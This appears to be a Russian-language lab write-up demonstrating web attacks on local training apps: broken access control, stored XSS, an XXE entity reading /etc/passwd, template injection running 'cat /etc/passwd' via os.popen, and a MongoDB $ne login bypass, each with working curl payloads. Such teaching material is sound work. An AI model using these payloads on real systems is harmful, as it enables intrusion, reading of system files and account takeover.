 ## Broken Access Control

Broken Access Control - это уязвимость, которая позволяет пользователю получить
доступ к данным или функционалу без наличия соответствующих прав.

Заметим, что для получения статистики пользователя, посылается GET-запрос на
сервер с cookie, содержащей сессию, а также передается query-параметр с именем
пользователя, статистику которого мы хотим получить.

```shell
#!/bin/bash

# rootroot is a first user, which have played some games
# and current user will try to sniff his statistics
session_cookie=$(
    curl -X POST "http://localhost:10005/login" \
        -H "Content-Type: application/json" \
        -d '{"username":"aboba","password":"aboba"}' \
        -i --silent | \
        grep -i set-cookie | \
        cut -d ' ' -f2
)

curl -X GET "http://localhost:10005/statistics/data?user=rootroot" \
     -H "Cookie: $session_cookie" \
     --silent | jq
     
# decoding the jwt session token to prove that
# it's not a rootroot user session
echo "$session_cookie" | awk -F '=' '{print $2}' | cut -d '.' -f2 | base64 -d | jq
```

```json
{"chartData":[{"y":100,"label":"Wins"},{"y":0,"label":"Ties"},{"y":0,"label":"Loses"}],"numbers":{"games":5,"wins":5,"ties":0,"loses":0}}
{"username":"aboba","iat":1710540136,"exp":1710543736}
```

## Cross-Site Scripting (XSS)

Cross-Site Scripting - это уязвимость, которая позволяет злоумышленнику
внедрить вредоносный код на страницу, который будет исполняться в браузере
пользователя.

Создадим новый пост и вставим в него `<script>alert(1)</script>`. После этого
попробуем открыть этот пост и увидим, что у нас появился alert.

<div align="center" style="display: flex; flex-direction: row; justify-content: center;">
    <img src="docs/xss/gossip.png" width="45%" height="100%"/>
    <img src="docs/xss/alert.png" width="45%" height="100%"/>
</div>

Вместо `alert(1)` можно вставить любой другой код, который будет исполняться
в браузере пользователя.

Например, можно вставить скрипт, который будет воровать cookie пользователя и
отправлять их на сервер злоумышленника, клиент даже не узнает об этом.

## Security Misconfiguration (XXE)

Security Misconfiguration - это уязвимость, которая позволяет злоумышленнику
получить доступ к конфиденциальной информации, такой как файлы, данные из БД
или другие данные, которые не должны быть доступны для него.

Для начала нужно понять структуру XML-файла, который мы будем отправлять на
сервер. Для этого воспользуемся функционалом на сайте для отправки сообщения,
но перед этим пропишем в консоли `window.onbeforeunload = function() { return true }`,
чтобы страница не перезагружалась после отправки сообщения.

Получаем структуру XML-файла, который отправляется на сервер.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<contact>
	<name></name>
	<email></email>
	<subject></subject>
	<message>undefined</message>
</contact>
```

В ответе сервера можно заметить, что он возвращает нам сообщение в формате:

```text
Thanks for message, $name !
```

Теперь, когда мы знаем структуру XML-файла и ответа сервера, мы можем
попробовать внедрить вредоносный код в XML-файл.

Для чтения файлов с сервера, создадим custom entity, которая будет ссылаться
на файл `/etc/passwd`.

Таким образом, мы можем получить доступ к любому файлу на сервере, к которому
у нас есть права на чтение.

```shell
curl -X POST "http://localhost:10004/contact.php" \
     -H "Content-Type: application/xml" \
     -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY hacker SYSTEM "file:///etc/passwd">
]>
<contact>
    <name>&hacker;</name>
    <email>hackerman@gmail.com</email>
    <subject>hacking</subject>
    <message>hacked</message>
</contact>' \
     --silent
```

## Server Side Injection (SSI)

Server Side Injection - это уязвимость, которая позволяет злоумышленнику
выполнить произвольный код на сервере.

Для начала нужно понять, как работает приложение. Для этого отправим запрос
на сервер с параметром `name` и посмотрим, что он нам вернет.

```shell
curl "http://localhost:10001?name=aboba"
```

В ответ получим html-страницу, в которой нас приветствуют.

Скорее всего со стороны приложения используются шаблонизаторы.

Попробуем вставить в параметр `name` выражение, которое будет умножать строку на 2 и
обернем их в двойные фигурные скобки, чтобы сэмулировать работу шаблонизатора.

Воспользуемся [Online URL Encoder](https://www.urlencoder.org/) для корректной обработки
символов шаблонизатором.

```shell
# {{ 5 * 2 }}
curl "http://localhost:10001?name=%7B%7B%205%20%2A%202%20%7D%7D"
```

Получаем в ответ `10`, что говорит о том, что на сервере выполняется произвольный
код, который передается в параметре `name`.

Теперь, когда мы знаем, что на сервере выполняется произвольный код, мы можем
попробовать получить доступ к файлам на сервере.

Для этого воспользуемся командой `os.popen` в Python, которая позволяет
выполнять произвольные команды на сервере.

```shell
# {% import os %}{{ os.popen('cat /etc/passwd').read() }}
curl "http://localhost:10001?name=%7B%25%20import%20os%20%25%7D%7B%7B%20os.popen%28%27cat%20%2Fetc%2Fpasswd%27%29.read%28%29%20%7D%7D"
```

## NoSQL Injection

NoSQL Injection - это уязвимость, которая позволяет модифицировать запрос к
БД таким образом, чтобы получить доступ к данным, к которым у нас нет прав.

`$ne` и `$gt` - это операторы, которые используются в MongoDB для сравнения
значений.

> `$ne` = not equal
>
> `$gt` = greater than

Заметим, что для логина используется запрос, который получает всех пользователей
с такими же `email` и `password`, что и в запросе.

```javascript
await User.find({$and: [ { email: email}, { password: password} ]});
```

Создадим парочку пользователей для иллюстрации уязвимости.

```shell
for i in {1..10}; do
    curl -X POST "http://localhost:10001/register" \
         -H "Content-Type: application/json" \
         -d "{\"email\":\"aboba-$i@gmail.com\",\"password\":\"aboba\",\"name\":\"aboba$i\"}" \
         --silent
done
```

Таким образом, если мы используем операторы `$ne` или `$gt` относительно пустой
строки, то мы получим всех пользователей из БД.

```shell
curl -X POST "http://localhost:10001/login" \
     -H "Content-Type: application/json" \
     -d '{"email": {"$ne": ""}, "password": {"$ne": ""}}' \
     --silent
```


